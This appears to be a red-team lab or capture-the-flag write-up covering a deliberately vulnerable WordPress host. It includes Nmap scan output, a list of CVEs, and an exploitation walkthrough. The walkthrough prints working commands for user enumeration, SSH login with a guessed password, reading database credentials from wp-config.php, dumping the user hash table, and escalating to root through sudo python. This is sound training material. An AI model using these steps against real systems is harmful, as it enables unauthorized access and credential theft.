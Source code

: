 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
---
## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

**Nmap scan report for 192.168.1.1**
Host is up (0.00058s latency).
Not shown: 995 filtered ports

**PORT     STATE SERVICE       VERSION**\
135/tcp  open  msrpc         Microsoft Windows RPC\
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn\
445/tcp  open  microsoft-ds?\
2179/tcp open  vmrdp?\
3389/tcp open  ms-wbt-server Microsoft Terminal Services\
MAC Address: 00:15:5D:00:04:0D (Microsoft)\
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows\
**Nmap scan report for 192.168.1.100**\
Host is up (0.00089s latency).\
Not shown: 998 closed ports

**PORT     STATE SERVICE VERSION**\
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)\
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.105**/
Host is up (0.00052s latency).\
Not shown: 998 closed ports

**PORT   STATE SERVICE VERSION**\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
80/tcp open  http    Apache httpd 2.4.29\
MAC Address: 00:15:5D:00:04:0F (Microsoft)\
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.110**\
Host is up (0.00062s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:10 (Microsoft)\
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.115**\
Host is up (0.0014s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:11 (Microsoft)\
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.90**\
Host is up (0.0000080s latency).\
Not shown: 999 closed ports

![NMAP network scan](Images/1NMAPnetworkscan.png)

---

### This scan identifies the services below as potential points of entry:
- Target 1 
List of Exposed Services
PORT    STATE SERVICE     VERSION\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

![Target 1 Port Scan](Images/2-5NMAPScan192.168.1.110.png)

### The following vulnerabilities were identified on Target 1:

 ### List of Critical Vulnerabilities
- WordPress XMLRPC GHOST Vulnerability Scanner - CVE-2015-0235
- Wordpress XMLRPC DoS
- Wordpress XML-RPC Username/Password Login Scanner
- Wordpress Pingback Locator - CVE-2013-0235
- Wordpress XML-RPC Pingback API

![WordPress Exploit Scan](Images/3-02Wpscanexploits.png)



### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - First, the Wordpress server was ennumerated with WPSCAN
          The user accounts were found in the results as well as five vunerabilities.
          The accounts were michael and steven
          The password for michael was easily guessed as : michael, revealing no password
          requirements were being enforced.  wpscan was also able to crack steven's password.
        
        wpscan --url 192.168.1.110/wordpress/ -e
        ssh michael@192.168.1.110
        password:michael
        cd /var/www/html
        nano service.html
        
![Flag 1](Images/3-2flag1serviceshtml.png)


   - flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Using the find command the 2nd flag was revealed to be in /var/www/
        find / -iname flag*
        cd /var/www
        cat flag2.txt

![Flag 2](Images/3-5flag2.png)
      
      
  -  flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
    Searching the /var/www/html directory revealed the wp-config.php file.  Searching that file
    revealed the root password for the MySQL database 'wordpress'.  Using the MySQL credentials
    allowed searching the tables 'wpcomments' and 'wpusers' which revealed a flag and two users hashes 
    respectively.  
    
   mysql -u root -p -h 127.0.0.1
   use wordpress;
   show tables
   select * from wp_comments
   select * from wp_users

 ![Flag 3](Images/6flag3.png)
      
      
  -  flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Using Steven's password, escalation was achived.  Then using python, root was achived
      allowing full access to all directories.  A find was performed, revealing a final flag file 
      in /root/flag4.txt


      su steven
      pink84
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      find / -iname flag*
      cd /root/
      cat flag4.txt


![Flag 4](Images/9flag4.png)
